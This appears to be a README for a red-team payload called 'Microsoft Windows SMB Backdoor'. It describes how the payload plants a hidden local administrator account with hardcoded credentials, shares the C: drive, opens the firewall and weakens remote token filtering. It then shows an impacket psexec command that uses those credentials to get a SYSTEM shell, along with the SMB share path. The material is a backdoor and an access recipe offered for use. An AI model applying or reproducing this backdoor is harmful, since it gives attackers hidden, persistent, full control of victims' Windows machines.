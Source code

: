 # "Microsoft Windows" SMB Backdoor

- Title:         "Microsoft Windows" SMB Backdoor
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Remote Access

## Description

1) Adds a user account (RD_User:RD_P@ssW0rD).
2) Adds this local user to local administrator group.
3) Shares "C:" directory (RD_SHARE).
4) Adds a rule to the firewall.
5) Sets a value to "LocalAccountTokenFilterPolicy" to access the "C:" with a local account.
6) Hides this user account.

## Exploitation

>
> The connection identifiers will be those defined by the values : **RD_User** and **RD_P@ssW0rD**.
>

```
hacker@hacker-computer:~$ python3 /opt/impacket/examples/psexec.py ./RD_User:RD_P@ssW0rD@<TARGET>
C:\WINDOWS\system32> whoami
nt authority\system
```

>
> The connection identifiers and the share name will be those defined by the values : **RD_SHARE**, **RD_User** and **RD_P@ssW0rD**.
>

```
smb://<TARGET>/RD_SHARE/
```